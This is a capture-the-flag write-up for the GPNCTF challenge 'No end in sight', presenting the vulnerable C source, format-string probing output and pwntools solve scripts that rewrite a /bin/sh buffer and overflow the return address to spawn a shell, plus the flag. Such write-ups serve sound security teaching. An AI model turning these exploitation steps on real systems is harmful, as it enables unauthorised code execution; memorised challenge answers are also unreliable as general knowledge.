 # No end in sight
<p align="center">
  <img src="Attachments/Description.png" />
</p>

## FLAG:
`GPNCTF{Th4nks_f0r_sav1ng_my_pr3ci0us_/bin/sh}`

## Solution
The challenge provides the following source code in the [attachment](Attachments/overflows-keep-flowing.tar.gz):

```c
#include <stdio.h>
#include <stdlib.h>

// gcc -no-pie -fno-stack-protector -o no-end-in-sight no-end-in-sight.c

char BINSH[8] = "/bin/sh";

void shutoff() {
	execve(&BINSH, NULL, NULL);
}

int main() {
	char buf[0xff];
	fgets(buf, 0xff, stdin);

	BINSH[0] = 0;
	printf(buf);
	
	fgets(buf, 0x110, stdin);
	return 0;
}
```

The challenge provides for the insertion of 2 inputs which are saved in the same buffer exceeding its real size and this leads to overwriting memory areas that do not belong to those allocated for the buffer (which has a fixed size). Furthermore, the first input is shown on the screen via *printf* and this suggests the possibility of *format string* with the possibility of reading the stack. Also, the goal of my challenge is to run the `shutoff` function to execute the command saved in the `BINSH` buffer, whose first character, however, is overwritten with a null byte. 

To solve the challenge we first try to exploit the *format string* and to verify its presence we send the following payload: `%p %p %p %p %p %p %p %p`

```bash
└─$ ./no-end-in-sight 
%p %p %p %p %p %p %p %p 
0x12a62a1 0xfbad2288 0x1 0x12a62b8 0x21001 0x7025207025207025 0x2520702520702520 0xa70252070252070
```

So we can use the format string to go and redefine the contents of the *BINSH* buffer, however we need to understand what is the offset starting from which the format string takes effect. To do this we add an input to the previously illustrated payload so as to understand after what we display it.

```bash
└─$ ./no-end-in-sight
AAAAAAAA %p %p %p %p %p %p %p %p
AAAAAAAA 0x121e2a1 0xfbad2288 0x1 0x121e2c1 0x21001 0x4141414141414141 0x2520702520702520 0x2070252070252070
```

Using the information obtained, I wrote a script using the `fmtstr_payload` method of *pwntools* to create the payload which will correctly set the contents of *BINSH*.

```python
from pwn import *

if args.REMOTE:
    p = remote('no-end-in-sight-0.chals.kitctf.de', 1337, ssl=True)
else:
    p = process("./no-end-in-sight")
    if args.GDB:
        gdb.attach(p, gdbscript="""
            break main
        """)

if args.DEBUG:
    p = gdb.debug("./no-end-in-sight")

exe = context.binary = ELF("./no-end-in-sight", checksec=False)

payload = fmtstr_payload(6, {exe.symbols.BINSH: b"/bin/sh"})
p.sendline(payload)

p.interactive()
```

At this point it is necessary to understand after how many characters the return address is overwritten. To figure this out we use *pwntools* once again with the ability to run gdb and then with the `cyclic` command figure out the correct number of characters.

<p align="center">
  <img src="Attachments/offset.png" />
</p>

To automate what has been said, the following [script](Attachments/solve.py) was created.

```python
from pwn import *

if args.REMOTE:
    p = remote('no-end-in-sight-0.chals.kitctf.de', 1337, ssl=True)
else:
    p = process("./no-end-in-sight")
    if args.GDB:
        gdb.attach(p, gdbscript="""
            break main
        """)

if args.DEBUG:
    p = gdb.debug("./no-end-in-sight")

exe = context.binary = ELF("./no-end-in-sight", checksec=False)

payload = fmtstr_payload(6, {exe.symbols.BINSH: b"/bin/sh"})
p.sendline(payload)

payload = b"A" * 264 + p64(exe.symbols.shutoff)
p.sendline(payload)

p.interactive()
```